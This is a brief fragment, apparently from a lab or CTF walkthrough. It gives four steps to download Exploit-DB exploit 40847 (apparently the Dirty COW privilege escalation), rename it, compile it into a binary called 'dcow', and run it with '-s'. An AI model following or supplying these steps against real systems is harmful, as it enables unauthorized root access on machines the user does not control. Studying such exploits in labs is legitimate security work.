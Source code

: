1. Download the exploit - https://www.exploit-db.com/exploits/40847
2. Rename it - mv 40847.cpp exploit.cpp
3. Compile the exploit file - g++ -Wall -pedantic -O2 -std=c++0x -pthread -o dcow exploit.cpp -lutil
4. Run the exploit - ./dcow -s
